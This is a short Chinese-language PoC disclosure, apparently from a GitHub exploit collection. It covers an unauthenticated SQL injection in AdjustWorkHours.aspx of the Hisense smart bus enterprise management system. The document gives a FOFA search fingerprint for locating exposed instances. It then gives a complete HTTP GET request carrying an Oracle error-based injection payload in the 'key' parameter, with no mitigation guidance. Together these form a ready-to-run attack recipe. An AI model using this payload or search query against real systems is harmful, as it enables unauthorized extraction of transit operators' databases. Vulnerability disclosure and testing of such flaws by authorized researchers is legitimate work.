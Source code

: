 # 海信智能公交企业管理系统AdjustWorkHours.aspx存在SQL注入漏洞

海信智能公交企业管理系统是一套以智慧车、智慧站、智慧场为基础，以大数据和人工智能技术的公交云脑为核心，旨在全面提升公交企业的安全保障能力、运营生产效率、企业管理水平、决策分析能力和乘客出行体验的综合管理系统。海信智能公交企业管理系统 AdjustWorkHours.aspx 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息

## fofa

```javascript
body="var _FactoryData"
```

## poc

```javascript
GET /YZSoft/Forms/XForm/BM/MaintainComManagement/AdjustWorkHours.aspx?key=1%27+AND+4208%3D%28SELECT+UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%2898%29%7C%7CCHR%28107%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%284208%3D4208%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28113%29%7C%7CCHR%28122%29%7C%7CCHR%28120%29%7C%7CCHR%28113%29%7C%7CCHR%2862%29%29%29+FROM+DUAL%29--+dSSu HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

![image-20241128093316189](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280933260.png)